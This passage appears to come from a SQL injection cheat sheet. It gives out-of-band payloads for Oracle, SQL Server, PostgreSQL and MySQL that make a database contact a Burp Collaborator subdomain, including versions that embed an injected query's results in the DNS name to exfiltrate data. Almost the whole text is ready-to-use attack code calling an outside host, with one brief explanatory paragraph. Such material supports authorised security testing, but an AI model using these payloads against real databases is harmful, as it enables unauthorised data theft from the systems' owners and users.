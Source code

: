 **Microsoft:**
```sql
exec master..xp_dirtree '//BURP-COLLABORATOR-SUBDOMAIN/a'
```

**PostgreSQL:**
```sql
copy (SELECT '') to program 'nslookup BURP-COLLABORATOR-SUBDOMAIN'
```

**MySQL:**
```sql
-- The following techniques work on Windows only:
LOAD_FILE('\\\\BURP-COLLABORATOR-SUBDOMAIN\\a')
SELECT ... INTO OUTFILE '\\\\BURP-COLLABORATOR-SUBDOMAIN\a'
```

## DNS Lookup with Data Exfiltration

You can cause the database to perform a DNS lookup to an external domain containing the results of an injected query. To do this, you will need to use Burp Collaborator to generate a unique Burp Collaborator subdomain that you will use in your attack, and then poll the Collaborator server to retrieve details of any DNS interactions, including the exfiltrated data.

**Oracle:**
```sql
SELECT EXTRACTVALUE(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://'||(SELECT YOUR-QUERY-HERE)||'.BURP-COLLABORATOR-SUBDOMAIN/"> %remote;]>'),'/l') FROM dual
```

**Microsoft:**
```sql
declare @p varchar(1024);set @p=(SELECT YOUR-QUERY-HERE);exec('master..xp_dirtree "//'+@p+'.BURP-COLLABORATOR-SUBDOMAIN/a"')
```

**PostgreSQL:**
```sql
create OR replace function f() returns void as $$
declare c text;
declare p text;
begin
SELECT into p (SELECT YOUR-QUERY-HERE);
c := 'copy (SELECT '''') to program ''nslookup '||p||'.BURP-COLLABORATOR-SUBDOMAIN''';
execute c;
END;
$$ language plpgsql security definer;
SELECT f();
```

**MySQL:**
```sql
-- The following technique works on Windows only:
SELECT YOUR-QUERY-HERE INTO OUTFILE '\\\\BURP-COLLABORATOR-SUBDOMAIN\a'
```
